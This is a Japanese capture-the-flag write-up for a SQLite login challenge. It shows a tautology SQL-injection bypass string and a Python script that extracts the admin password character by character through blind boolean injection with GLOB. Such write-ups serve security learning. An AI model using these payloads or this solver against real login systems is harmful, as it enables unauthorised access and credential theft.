 ## Login (120pt)
> http://ctfq.u1tramarine.blue/q6/  
> https://ctfq.u1tramarine.blue/q6/

アクセスすると、簡素なログイン画面が表示される。
![](images/img1.png)

とりあえずIDは`admin`、Passは`a' OR 'a' == 'a'; --`としてSQLインジェクションしてみると、今度はこんなページが現れる。
![](images/img2.png)

つまり、`database.db`からどうにかしてadminのパスワードを引っ張り出してくる必要がある。（そのままアクセスしようとしても403を返されるため、SQLを介する必要がある）しかし、DBへの問合せ結果を出力する処理は見当たらない。  
どうすれば良いのだろうかと詳解セキュリティコンテストを読んでいたら、Booleanベースの攻撃というものがあるらしい。`LIKE`などのゆるい文字列比較を用いて`TRUE`となる文字列を一文字ずつ探索していく、いわゆる総当たり的な手法である。なお、今回用いられているDB管理システムはsqliteなので、`GLOB`を使う。IDとPassは`POST`で送信しているので、返ってくるHTMLに`Congratulations!`が含まれていれば`TRUE`判定されたとみなすことができる。  
方針が定まったのでソルバを書く。なお、書くにあたってhttps://qiita.com/kk0128/items/3907045802c9b95e7c21 をかなり参考にさせてもらった。
```python
import sys
import requests
from string import printable

url = 'https://ctfq.u1tramarine.blue/q6/'
id_input = 'admin'
flag = ''

while True:
    for char in printable.replace('*', '').replace('?', ''):
        payload = {
            'id': id_input,
            'pass': f"a' OR pass GLOB '{flag}{char}*';"
        }
        response = requests.post(url, data=payload)

        if 'Congratulations!' in response.text:
            flag += char
            print(f'HIT, {flag}')
            payload_2 = {
                'id': id_input,
                'pass': flag
            }
            response_2 = requests.post(url, data=payload_2) # 現在のflagでログインが通るか？
            if 'Congratulations!' in response_2.text:
                sys.exit('Found a flag')    # ログイン成功=フラグ完成 として終了
```

実行してみたところ、2分30秒くらいでフラグが完成した。やり方次第ではもう少し早くできるのかもしれない。